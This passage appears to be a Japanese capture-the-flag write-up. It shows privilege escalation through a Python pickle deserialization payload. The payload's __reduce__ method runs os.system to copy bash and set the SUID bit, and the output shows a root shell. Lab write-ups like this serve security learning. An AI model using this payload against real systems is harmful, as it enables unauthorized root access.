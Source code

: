 Python で Base64 デシリアライズ攻撃が可能か HackTricks で検索したところ、下記が見つかった。これも pickle だし、非常に怪しい。

https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html?highlight=base64%20python#pickle

リバースシェルは通信が遮断されているので bash をコピーする方針。

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("cp /bin/bash /home/dill/bash; chmod +sx /home/dill/bash",))
print(base64.b64encode(pickle.dumps(P())))
```

エクスプロイト

```sh
dill@ubuntu-xenial:~$ sudo /opt/peak_hill_farm/peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: [REDACTED]
This grew to: 
0
```

成功！

```sh
dill@ubuntu-xenial:~$ ls -al /home/dill
total 4080
drwxr-xr-x 5 dill dill    4096 Oct 31 04:31 .
drwxr-xr-x 4 root root    4096 May 15  2020 ..
-rwsr-sr-x 1 root root 1037528 Oct 31 04:31 bash
-rw------- 1 root root     889 May 20  2020 .bash_history
-rw-r--r-- 1 dill dill    3801 May 18  2020 .bashrc
drwx------ 2 dill dill    4096 May 15  2020 .cache
drwxrwxr-x 2 dill dill    4096 May 20  2020 .nano
-rwxrwxr-x 1 dill dill 3104768 Oct 31 03:15 pspy64
drwxr-xr-x 2 dill dill    4096 May 15  2020 .ssh
-r--r----- 1 dill dill      33 May 15  2020 user.txt

dill@ubuntu-xenial:~$ /home/dill/bash -p
bash-4.3# id
uid=1003(dill) gid=1003(dill) euid=0(root) egid=0(root) groups=0(root),1003(dill)
```

## 振り返り

- fileコマンドで判別できないとき、ダメもとで ChatGPT に何のファイルか判別してもらうのは有効。
- オンラインサービスもあり、`Online TrID File Identifier` は今回のファイルをPickleと判別できたので覚えておきたい。

### 判別できたサイト

- https://mark0.net/onlinetrid.py

### 判別できなかったサイト

- https://www.checkfiletype.com/
